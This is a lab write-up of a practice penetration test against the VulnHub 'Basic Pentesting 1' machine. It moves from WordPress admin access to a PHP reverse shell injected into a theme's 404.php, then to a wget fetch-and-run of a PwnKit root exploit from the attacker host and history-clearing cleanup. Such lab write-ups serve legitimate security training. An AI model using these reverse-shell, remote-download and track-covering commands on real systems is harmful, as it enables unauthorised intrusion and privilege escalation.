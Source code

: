 
## Red Team Journal – June 15, 2025

### Engagement Overview
**Target:** Basic Pentesting 1 (VulnHub)  
**Box IP:** 192.168.56.102  
**Attacker IP:** 192.168.56.10  
**Methodology:** Web enumeration → WordPress admin access → reverse shell → privesc via CVE-2021-4034 (PwnKit)  

---

### Objectives
- [x] Regain WordPress admin access
- [x] Inject PHP reverse shell via theme
- [x] Get reverse shell to Kali
- [x] Upgrade to interactive TTY
- [x] Enumerate for privilege escalation vectors
- [x] Exploit PwnKit to gain root
- [x] Clean up artifacts

---

### Initial Foothold

**Method:** PHP Reverse Shell via `404.php` in theme
  
**Payload used:**

<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.10/4444 0>&1'"); ?>

Triggered with:

curl "http://vtcsec/secret/wp-content/themes/twentyseventeen/404.php"

**Listener setup on Kali:**

nc -lvnp 4444

Result:
Gained shell as www-data.

**Enumeration Highlights**

uname -a
cat /etc/os-release
ls /home
sudo -l
find / -perm -4000 -type f 2>/dev/null

**Key Findings:**

    OS: Ubuntu 16.04.3 LTS

    Kernel: 4.10.0-28-generic

    Local user: marlinspike

    No sudo access from www-data

    SUID binary found: /usr/bin/pkexec (used by PwnKit)

**Privilege Escalation**

Exploit: CVE-2021-4034 (PwnKit)
Approach: Static binary hosted on attacker machine

On Kali:

python3 -m http.server 8000

On Target:

cd /tmp
wget http://192.168.56.10:8000/PwnKit -O PwnKit
chmod +x PwnKit
./PwnKit

Result:

root@vtcsec:/tmp# whoami
root

**Cleanup Actions**

rm /tmp/PwnKit
history -c

Root shell obtained.
No persistence or root flag grabbed — purpose was shell lifecycle practice.


**Tools Utilized**

    nmap, gobuster, wpscan

    curl, netcat, wget, python3

    Metasploit (for ProFTPD attempt)

    Static PwnKit binary

**Key Takeaways**

    Always check /wp-login.php and XML-RPC for exposed WordPress logins

    Use encoded curl payloads to bypass broken command injection

    Static precompiled binaries save time vs. build errors (GLIBC mismatch)

    Do not use fg without setting proper terminal (stty raw -echo)

    After shell access, use enumeration before brute forcing — privilege escalation often lives in defaults

<!--stackedit_data:
eyJoaXN0b3J5IjpbLTIzMTYyMDA4NCwtMTcyMDEyODg4NV19
-->